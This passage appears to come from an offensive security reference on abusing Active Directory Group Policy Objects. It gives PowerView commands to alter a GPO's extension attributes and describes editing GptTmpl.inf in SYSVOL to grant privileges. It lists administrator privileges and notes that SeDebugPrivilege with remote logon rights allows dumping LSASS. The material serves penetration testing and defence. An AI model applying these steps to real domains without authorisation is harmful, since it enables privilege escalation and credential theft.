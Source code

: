 The `gPCMachineExtensionNames` and `gPCUserExtensionNames` attributes of the
GPO object can be modified using `PowerView`. Note that the `Group Policy`
module for PowerShell does not provides any editing cmdlets for existing GPO:

```bash
Get-DomainGPO -Identity "<GPO_NAME | GPO_GUID>" -Properties gPCMachineExtensionNames | Select-Object -ExpandProperty gPCMachineExtensionNames

Get-DomainGPO -Identity "<GPO_NAME | GPO_GUID>" | Set-DomainObject -Set @{'gPCMachineExtensionNames'='<{EXISTING_GUID}{NEW_GUID}[...]>'}
```

###### [Example - GPO Machine] User rights

The `GptTmpl.inf` file, located in
`\\<DOMAIN>\SYSVOL\<DOMAIN_FQDN>\Policies\<GPO_GUID>\MACHINE\Microsoft\Windows
NT\SecEdit\`, can be edited to add user rights to the specified domain or local
user.

From an opsec perspective, note that modifying a GPO `[Privilege Rights]`
assignation may override another assignation in a GPO with a lower precedence
order, resulting in a possible loss of access for legitimate personal. It is
thus recommended to first enumerate all GPO being applied on the Organizational
Unit before undertaking any changes.

The full list of privileges assign to an user when being added as a member of
the local built-in Administrators group is as follow. The
`SeRemoteInteractiveLogonRight` and `SeDebugPrivilege` privileges are enough to
dump the `LSASS` process through a Remote Desktop access.

```
# SePriv = *<SID>
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeBackupPrivilege
SeBatchLogonRight
SeChangeNotifyPrivilege
SeCreatePagefilePrivilege
SeDebugPrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeInteractiveLogonRight
SeLoadDriverPrivilege
SeMachineAccountPrivilege
SeNetworkLogonRight
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemTimePrivilege
SeTakeOwnershipPrivilege
SeUndockPrivilege
SeEnableDelegationPrivilege
```
